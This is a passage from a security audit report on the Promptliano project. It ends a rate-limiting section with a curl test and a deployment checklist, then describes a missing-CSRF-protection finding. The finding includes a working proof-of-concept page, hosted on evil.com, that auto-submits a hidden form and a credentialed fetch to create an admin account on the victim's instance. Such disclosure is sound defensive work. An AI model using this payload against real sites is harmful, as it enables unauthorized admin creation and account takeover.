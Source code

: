 ```bash
curl -X POST http://localhost:3147/api/auth/login \
  -d '{"username":"test","password":"test"}'
# Expected: Rate limit reset, can make requests again
```

#### Deployment Checklist

- [ ] Configure rate limiting in environment variables
- [ ] Set up Redis for production (if using Redis backend)
- [ ] Monitor rate limit violations in logs
- [ ] Set up alerts for unusual rate limit patterns
- [ ] Document rate limits in API documentation
- [ ] Add rate limit info to error responses
- [ ] Test from different IP addresses
- [ ] Verify rate limits don't affect legitimate usage

---

### Issue #4: Missing CSRF Protection

**Severity:** 🟠 HIGH (7/10)
**CVSS Score:** 6.5 (Medium)
**Files Affected:**
- All POST/PUT/DELETE routes in `/packages/server/src/routes/`
- `/packages/client/src/lib/api-client.ts`

#### Vulnerability Description

State-changing operations have **no CSRF (Cross-Site Request Forgery) protection**. Malicious websites can trick authenticated users into performing unwanted actions.

**Attack Vectors:**
- Create/delete users without user consent
- Modify account settings
- Delete projects/tickets
- Any POST/PUT/DELETE operation

#### Attack Scenario

```html
<!-- Evil website (evil.com) tricks logged-in Promptliano user -->
<!DOCTYPE html>
<html>
<body onload="document.forms[0].submit()">
  <!-- Invisible form submits to victim's Promptliano instance -->
  <form action="http://promptliano.local/api/admin/users" method="POST">
    <input type="hidden" name="username" value="hacker">
    <input type="hidden" name="role" value="admin">
    <input type="hidden" name="password" value="secret123">
  </form>

  <!-- Or using JavaScript: -->
  <script>
    // If user is logged into Promptliano, their cookies will be sent
    fetch('http://promptliano.local/api/admin/users', {
      method: 'POST',
      credentials: 'include', // Sends auth cookies
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({
        username: 'hacker',
        role: 'admin',
        password: 'secret'
      })
    })
  </script>
</body>
```